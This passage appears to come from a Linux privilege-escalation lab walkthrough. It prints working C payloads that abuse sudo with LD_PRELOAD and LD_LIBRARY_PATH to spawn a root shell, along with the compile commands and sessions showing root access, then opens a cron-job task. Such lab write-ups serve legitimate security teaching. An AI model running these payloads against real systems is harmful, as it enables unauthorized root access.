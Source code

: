 ~~~
~~~

```c
user@debian:~$ cat /home/user/tools/sudo/preload.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

~~~
user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so /usr/bin/ftp 
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
~~~

```c
user@debian:~$ cat /home/user/tools/sudo/library_path.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

~~~
user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
~~~

# [Task 8] Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:

~~~
cat /etc/crontab
~~~
